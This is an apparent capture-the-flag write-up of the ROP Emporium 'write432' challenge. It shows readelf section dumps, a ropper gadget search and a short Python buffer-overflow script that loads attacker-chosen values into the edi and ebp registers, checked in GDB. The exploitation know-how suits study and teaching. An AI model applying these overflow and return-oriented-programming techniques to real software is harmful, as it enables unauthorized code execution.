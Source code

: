 ```bash 
> readelf -a write432
Section Headers:  
 ...
 000004 04  WA  0   0  4  
 [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4  
 [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4  
 [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4  
 [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4  
 [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4  
 [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1  
...
Key to Flags:  
 W (write), A (alloc), X (execute), M (merge), S (strings), I (info),  
 L (link order), O (extra OS processing required), G (group), T (TLS),  
 C (compressed), x (unknown), o (OS specific), E (exclude),  
 D (mbind), p (processor specific)
```
 The .data section appears to be writeable. Readelf can also be used to read that section. 
```bash
>readelf write432 -x .data
Hex dump of section '.data':  
 0x0804a018 00000000 00000000                   ........
```
It looks empty. This section is likely safe to overwrite. The address of that section is `0x0804a018`. Now I need a way to write that value to the edi register. I also need the ability to write arbitrary bytes to the ebp register. I use [ropper](https://github.com/sashs/Ropper) to look for more useful gadgets. I believe pop will be the most useful command. It should allow me to place values from the stack(which I control) into the needed registers. 
```bash 
>ropper -f write432
...
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;    
0x080485ab: pop ebp; ret;    
0x080485a8: pop ebx; pop esi; pop edi; pop ebp; ret;  
0x0804839d: pop ebx; ret;    
0x08048524: pop ecx; pop ebp; lea esp, [ecx - 4]; ret; 
0x080485aa: pop edi; pop ebp; ret;    
0x080485a9: pop esi; pop edi; pop ebp; ret;
...
```
The most useful gadget appears to be this one: `0x080485aa: pop edi; pop ebp; ret;`. I will now perform a short test run to see if I can get values into the registers. 
```python
import struct
import sys
buf=b'\x41'*44
buf+= struct.pack('<L',0x080485aa) # pop edi; pop ebp; ret;
buf+=b'BBBB' #
buf+=b'DDDD'
out= bytes(buf)
sys.stdout.buffer.write(out)
```
I use GDB to examine the registers after overflowing the buffer. 
```bash 
(gdb) info registers    
eax            0xb                 11  
ecx            0xf7f770f4          -134778636  
edx            0x1                 1  
ebx            0x41414141          1094795585  
esp            0xffffd49c          0xffffd49c  
ebp            0x44444444          0x44444444  
esi            0xffffd564          -10908  
edi            0x42424242          1111638594
```
